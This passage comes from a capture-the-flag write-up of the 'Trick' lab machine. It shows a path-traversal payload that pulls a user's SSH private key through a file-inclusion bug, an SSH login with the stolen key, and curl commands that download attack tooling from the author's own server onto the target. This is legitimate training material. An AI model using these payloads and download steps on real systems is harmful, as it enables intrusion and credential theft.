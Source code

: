 Hooray :tada: That worked! Only the formatting of the ssh key is not idea. I'll use curl to dump it into a file directly, instead:

```bash
curl http://preprod-marketing.trick.htb/index.php?page=..././..././..././..././home/michael/.ssh/id_rsa -o id_rsa
```

Now, set proper file permissions on the key (ssh will complain / remind you if you don't), and log in via ssh:

```bash
chmod 600 id_rsa
ssh michael@trick.htb -i id_rsa
```

![logged in as michael](logged in as michael.png)



## Privilege Escalation

To make PE easier, I decided to serve my "small toolbox" over to the target machine. To do this, I hosted a python ``http.server`` with the following tools

```
www
├── chisel
├── index.html
├── LinEnum.sh
├── linpeas.sh
└── pspy
```

```
sudo ufw allow from 10.10.11.166 to any port 8000 proto tcp
cd www
python3 -m http.server 8000
```

Noting down my IP address with ``ifconfig tun0``, I downloaded my toolbox from my http server as michael:

```
mkdir /tmp/tools
curl -O 10.10.14.5:8000/pspy
curl -O 10.10.14.5:8000/LinEnum.sh
curl -O 10.10.14.5:8000/linpeas.sh
chmod u+x ./*
```

I then took a look at michael's $PATH and cross referenced against locations they can write to:

```
id
echo $PATH
find / -user michael 2>/dev/null | grep -v proc
find / -group security 2>/dev/null | grep -v proc
```
